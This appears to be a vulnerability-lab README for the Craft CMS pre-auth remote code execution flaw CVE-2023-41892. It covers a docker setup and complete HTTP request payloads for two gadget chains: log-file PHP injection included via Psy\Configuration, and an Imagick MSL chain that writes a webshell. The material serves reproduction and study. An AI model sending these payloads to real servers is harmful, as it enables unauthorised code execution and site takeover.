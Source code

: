 # CraftCMS ConditionsController Pre-Auth Remote Code Execution (CVE-2023-41892)

[中文版本(Chinese version)](README.zh-cn.md)

Craft CMS is a flexible, user-friendly CMS for creating custom digital experiences on the web. It provides users with a backend interface to implement websites and configure the CMS.

A vulnerability in Craft CMS versions 4.4.0 through 4.4.14 allows unauthenticated attackers to achieve remote code execution through the `ConditionsController`. The vulnerability exists due to insufficient input validation in the controller's `beforeAction` method, which can be exploited to create arbitrary objects and achieve code execution.

References:

- <https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g>
- <https://blog.calif.io/p/craftcms-rce>
- <https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

## Environment Setup

Execute the following command to start a vulnerable Craft CMS 4.4.14:

```
docker compose up -d
```

After the server is running, you can see the installation page at `http://your-ip:8088/admin/install`. Please follow the instructions to install CraftCMS, the default database address is `db` and the username and password are both `root`.

![](1.png)

## Vulnerability Reproduction

The root cause of the vulnerability is that the attacker can send a specially crafted HTTP request to create arbitrary objects through PHP object injection. By chaining multiple gadgets in the codebase, the attacker can achieve remote code execution.

There are two common gadgets that can be used to achieve remote code execution.

### Gadget 1: `craft\elements\conditions\users\UserCondition` with `\Psy\Configuration`

This gadget requires server logging to be enabled, which is enabled by default.

First, send a POST request with a syntax error JSON to write the payload to the log file:

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
aaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaa
<?php
@phpinfo(); __halt_compiler();
?>
}
```

![](2.png)

Then, trigger the remote code execution by including the log file through the `\Psy\Configuration` gadget (replace the `2025-03-31` with your current date):

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
  "config": {
    "name": "test",
    "as xyz": {
      "class": "\\Psy\\Configuration",
      "__construct()": {
        "config": {
          "configFile": "../storage/logs/web-2025-03-31.log"
        }
      }
    }
  },
  "test": "craft\\elements\\conditions\\users\\UserCondition"
}
```

![](3.png)

As you can see, the PHPINFO is executed successfully.

### Gadget 2: `craft\elements\conditions\users\UserCondition` with built-in `Imagick` class

If the Imagick extension is enabled, you can use the `Imagick` class with MSL format to write arbitrary files:

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytlNPtAxuuGOeUqqY

------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="test"

craft\elements\conditions\users\UserCondition
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[name]"

test
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][class]"

imagick
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][__construct()][0][0]"

vid:msl:/tmp/php*
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="file"; filename="1.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
  <read filename="caption:&lt;?=phpinfo();?&gt;"/>
  <write filename="info:webshell.php" />
</image>
------WebKitFormBoundarytlNPtAxuuGOeUqqY--
```

This payload will execute PHP code like `new Imagick('vid:msl:/tmp/php*');`, and cause the "Segmentation fault" error, which makes the thread crash:

![](4.png)

But the `webshell.php` file is written successfully:

![](5.png)
